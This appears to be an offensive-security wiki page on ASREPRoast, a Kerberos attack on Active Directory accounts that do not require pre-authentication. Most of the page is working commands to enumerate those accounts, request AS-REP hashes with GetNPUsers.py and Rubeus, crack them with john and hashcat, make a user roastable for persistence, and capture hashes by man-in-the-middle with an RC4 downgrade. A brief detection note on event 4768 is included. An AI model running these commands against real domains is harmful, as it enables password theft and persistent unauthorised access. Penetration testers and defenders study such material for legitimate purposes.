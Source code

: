 # ASREPRoast


## ASREPRoast

ASREPRoast is a security attack that exploits users who lack the **Kerberos pre-authentication required attribute**. Essentially, this vulnerability allows attackers to request authentication for a user from the Domain Controller (DC) without needing the user's password. The DC then responds with a message encrypted with the user's password-derived key, which attackers can attempt to crack offline to discover the user's password.

The main requirements for this attack are:

- **Lack of Kerberos pre-authentication**: Target users must not have this security feature enabled.
- **Connection to the Domain Controller (DC)**: Attackers need access to the DC to send requests and receive encrypted messages.
- **Optional domain account**: Having a domain account allows attackers to more efficiently identify vulnerable users through LDAP queries. Without such an account, attackers must guess usernames.

#### Enumerating vulnerable users (need domain credentials)

```bash:Using Windows
Get-DomainUser -PreauthNotRequired -verbose #List vuln users using PowerView
```
```
```bash:Using Linux
bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get search --filter '(&(userAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))' --attr sAMAccountName
```
```
#### Request AS_REP message

```bash:Using Linux
#Try all the usernames in usernames.txt
python GetNPUsers.py jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
#Use domain creds to extract targets and target them
python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast
```
```
```bash:Using Windows
.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast [/user:username]
Get-ASREPHash -Username VPN114user -verbose #From ASREPRoast.ps1 (https://github.com/HarmJ0y/ASREPRoast)
```
```
> [!WARNING]
> AS-REP Roasting with Rubeus will generate a 4768 with an encryption type of 0x17 and preauth type of 0.

### Cracking

```bash
john --wordlist=passwords_kerb.txt hashes.asreproast
hashcat -m 18200 --force -a 0 hashes.asreproast passwords_kerb.txt
```
```
### Persistence

Force **preauth** not required for a user where you have **GenericAll** permissions (or permissions to write properties):

```bash:Using Windows
Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose
```
```
```bash:Using Linux
bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 add uac -f DONT_REQ_PREAUTH 'target_user'
```
```
## ASREProast without credentials

An attacker can use a man-in-the-middle position to capture AS-REP packets as they traverse the network without relying on Kerberos pre-authentication being disabled. It therefore works for all users on the VLAN.\
[[https://github.com/Yaxxine7/ASRepCatcher|ASRepCatcher]] allows us to do so. Moreover, the tool forces client workstations to use RC4 by altering the Kerberos negotiation.

```bash
# Actively acting as a proxy between the clients and the DC, forcing RC4 downgrade if supported
ASRepCatcher relay -dc $DC_IP

# Disabling ARP spoofing, the mitm position must be obtained differently
ASRepCatcher relay -dc $DC_IP --disable-spoofing

# Passive listening of AS-REP packets, no packet alteration
ASRepCatcher listen
```
```
## References

- [[https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat|https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat]]

---



